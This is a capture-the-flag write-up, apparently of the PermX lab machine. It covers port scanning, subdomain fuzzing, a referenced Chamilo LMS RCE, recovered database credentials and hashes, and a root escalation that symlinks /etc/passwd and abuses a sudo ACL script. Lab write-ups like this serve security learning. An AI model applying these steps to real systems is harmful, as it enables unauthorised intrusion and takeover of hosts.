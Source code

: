 
# NMAP 

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-10 08:54 CDT
Nmap scan report for 10.129.197.234
Host is up (0.0094s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:5c:5d:8c:47:3e:d8:72:f7:b4:80:03:49:86:6d:ef (ECDSA)
|_  256 1f:41:02:8e:6b:17:18:9c:a0:ac:54:23:e9:71:30:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://permx.htb
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.22 seconds

```

> Found nothing on http://permx.htb, so I enumerated subdomains using ffuf
> 
```shell
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://permx.htb -H "Host: FUZZ.permx.htb" -fw 18
```

```shell
lms                     [Status: 200, Size: 19347, Words: 4910, Lines: 353, Duration: 45ms]

```

> Found email address on lms.permx.htb `admin@permx.htb`

> the subdomain uses **chamilo lms** v1.11 from lms.permx.htb/documentation

> it has a [CVE](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc) that allows RCE on unauthenticated users 

> found sql credentials

```shell
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';

```

>db_password also works on the user mtz

> found credentials on the mariaDB

```shell
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$04$1Ddsofn9mOaa9cbPzk0m6euWcainR.ZT2ts96vRCKrN7CGCmmq4ra |
| anon     | $2y$04$wyjp2UVTeiD/jF4OdoYDquf4e7OWi6a3sohKRDe80IHAyihX0ujdS |
+----------+--------------------------------------------------------------+

```

## password cracking using hashcat and john

```shell
hashcat -m 3200 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

john --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt hash.
txt 
```

> no cracked password
# mtz user can run opt/acl.sh as root

```shell
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh

```
# acl.sh file
```bash
#!/bin/bash

if [ "$#" -ne 3 ]; then
    /usr/bin/echo "Usage: $0 user perm file"
    exit 1
fi

user="$1"
perm="$2"
target="$3"

if [[ "$target" != /home/mtz/* || "$target" == *..* ]]; then
    /usr/bin/echo "Access denied."
    exit 1
fi

# Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

```
> created a link from /etc/passwd to /home/mtz/passwd. then used the acl.sh to change permission on the linked file so that we can edit /etc/passwd to add our password on the root user 

```shell
ln -s /etc/passwd passwd
sudo /opt/acl.sh mtz rw /home/mtz/passwd

# Generated a passwd format password
openssl passwd test

```

> replaced the "x" on the root 

```shell
root:x:0:0:root:/root:/bin/bash
```

> switched user using `su`, gained shell